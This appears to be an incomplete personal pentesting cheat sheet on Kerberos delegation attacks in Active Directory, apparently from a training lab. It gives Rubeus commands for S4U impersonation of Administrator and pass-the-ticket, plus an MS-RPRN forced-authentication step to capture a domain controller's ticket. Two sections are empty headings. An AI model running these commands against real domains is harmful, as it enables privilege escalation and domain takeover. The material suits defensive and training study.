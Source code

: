 # Delegations

### Constrained Delegation

With the account with the permission's hash launch rubeus to ask a tgt as administrator

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
{% endcode %}

### Unconstrained Delegation



### Resource Based Constrained Delegation



### Monitor for Delegation

idk if it's really a delegation&#x20;

Launch rubeus

```powershell
./Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```

&#x20;Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)

```powershell
.\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```

Rubeus is triggered

Copy the ticket and use it with rubeus on the local machine

```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
